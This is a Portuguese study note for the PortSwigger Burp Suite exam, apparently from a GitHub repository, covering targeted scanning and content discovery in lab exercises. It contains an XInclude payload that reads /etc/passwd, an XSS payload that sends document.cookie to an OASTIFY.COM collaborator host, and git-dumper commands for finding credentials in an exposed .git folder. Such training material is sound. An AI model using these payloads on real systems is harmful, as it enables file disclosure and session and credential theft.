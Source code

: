 # Enumeração

A PortSwigger ressalta que durante o exame nenhuma enumeração será necessária no sentido de ter que encontrar parâmetros, diretórios ou funcionalidades escondidas.

Essa seção trata-se mais de eventuais descobertas que você pode fazer e principalmente, de como usar o Scanner do Burp, algo dito como essencial para o exame.

<br>

## Laboratórios

**Targeted Scan**

Devido ao tempo limitado do exame, [escaneie pontos definidos](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing) e específicos das requests.

![spaces_oYjVVNuyBxUuweHQBVga_uploads_yeSnaFUG5zDiV234p2uw_image](https://github.com/user-attachments/assets/1baacc3e-eef4-4521-ba96-e96b366b6c4c)

<br>
<br>

**Lab: Discovering Vulnerabilities Quickly with Targeted Scanning**

Utilize o Active Scan em `POST /produck/stock`.

Isso vai identificar a injeção XML, então copie o comando e adapte para ler o arquivo `/etc/passwd`.
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

<br>
<br>

**Lab: Scanning Non-standard Data Structures**

Escaneie o cookie de sessão que apresenta um formato um pouco fora do comum para identificar a vulnerabilidade através do scanner.

Nesse caso, é um XSS que pode ser utilizado para roubar o cookie do administrator:
```
'"><svg/onload=fetch(`//OASTIFY.COM/${encodeURIComponent(document.cookie)}`)>:CURRENT-USER-LOGIN-COOKIE-2ND-PART
```

Lembre de encodar em URL:

![image](https://github.com/user-attachments/assets/89e61d23-325c-4126-afc6-189ebb522976)

<br>

## Content Discovery

Olhar os arquivos `robots.txt` e `sitemap.xml` pode revelar conteúdos.

Se encontrar o arquivo `.git` exposto, é possível baixar os commits antigos e ver se algum possui credenciais:
```
git-dumper https://0a3200d504033dce82e5f7a100de0017.web-security-academy.net/.git .

git log --stat
 
git show 8d7bd37bfe266c9d948e8bfea4e04ef8397a558d
```
